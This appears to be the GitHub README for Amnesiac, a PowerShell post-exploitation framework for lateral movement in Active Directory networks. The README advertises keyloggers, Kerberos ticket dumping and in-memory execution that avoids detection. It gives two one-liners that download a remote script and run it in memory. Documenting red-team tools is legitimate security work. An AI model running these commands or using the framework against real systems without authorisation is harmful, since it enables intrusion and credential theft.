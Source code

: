 ![Amnesiac3](https://github.com/Leo4j/Amnesiac/assets/61951374/f99be249-3270-4c92-ab27-516d2b8db7a3)
![279440077-678ce24e-70c4-47b1-b595-ca0835ba35d9](https://github.com/Leo4j/Amnesiac/assets/61951374/067080b7-b115-41e4-994e-60c0335c05dc)

# Amnesiac

`Amnesiac` is a post-exploitation framework designed to assist with lateral movement within active directory environments.

Amnesiac is being developed to bridge a gap on Windows OS, where post-exploitation frameworks are not readily available unless explicitly installed. In fact, it is entirely written in PowerShell, and can be loaded and executed in memory, just like any other PowerShell script.

If you find Amnesiac valuable and you like this project, please consider giving us a star on GitHub. Your support motivates the developer to continue improving and maintaining this project.

Please read the documentation to get the best out of Amnesiac: https://leo4j.gitbook.io/amnesiac/

## Load and run

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Amnesiac/main/Amnesiac.ps1');Amnesiac
```

If you need to run Amnesiac through a shell, use Amnesiac_ShellReady.ps1 | No colors, shell compatible

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Amnesiac/refs/heads/main/Amnesiac_ShellReady.ps1');Amnesiac
```

## Key Features 

### Command Execution over Named-Pipes (SMB)

Amnesiac sends commands and receives outputs through Named Pipes, ensuring discreet and efficient post-exploitation activities.

### No Installation Required

Unlike traditional frameworks, Amnesiac does not require installation. It operates entirely in memory, reducing the risk of detection and forensic footprint.

### User-Friendly Framework

Amnesiac is designed with usability in mind. It provides a user-friendly interface, making it accessible and efficient for both beginners and experienced users.

### Versatile Post-Exploitation Modules

Amnesiac comes equipped with an array of post-exploitation modules, ranging from keyloggers to Kerberos ticket dumping tools. These modules can be seamlessly integrated into your testing and assessment workflows.

### Acknowledgments

Amnesiac relies on few other projects for its modules. In each module, you'll find reference link information, ensuring proper attribution to the original creators.

### Support and Contributions

Contributions and feedback from the community are highly encouraged and appreciated.

### Preview

Watch on YouTube :point_down:

[![Watch the video](https://img.youtube.com/vi/xwHjKKtqAD4/maxresdefault.jpg)](https://youtu.be/xwHjKKtqAD4)

![image](https://github.com/Leo4j/Amnesiac/assets/61951374/895add16-3775-4f9e-9fef-b21739f206e0)

### License

Amnesiac is distributed under the GPL-3.0 License. Please review the license for details on usage and redistribution.

### Disclaimer

**Amnesiac is intended exclusively for research, education, and authorized testing. Its purpose is to assist professionals and researchers in identifying vulnerabilities and enhancing system security.**

**Users must secure explicit, mutual consent from all parties involved before utilizing this tool on any system, network, or digital environment, as unauthorized activities can lead to serious legal consequences. Users are responsible for adhering to all applicable laws and regulations related to cybersecurity and digital access.**

**The creator of Amnesiac disclaims liability for any misuse or illicit use of the tool and is not responsible for any resulting damages or losses.**

**THE SOFTWARE IS PROVIDED “AS IS,” WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE, AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES, OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT, OR OTHERWISE, ARISING FROM, OUT OF, OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.**

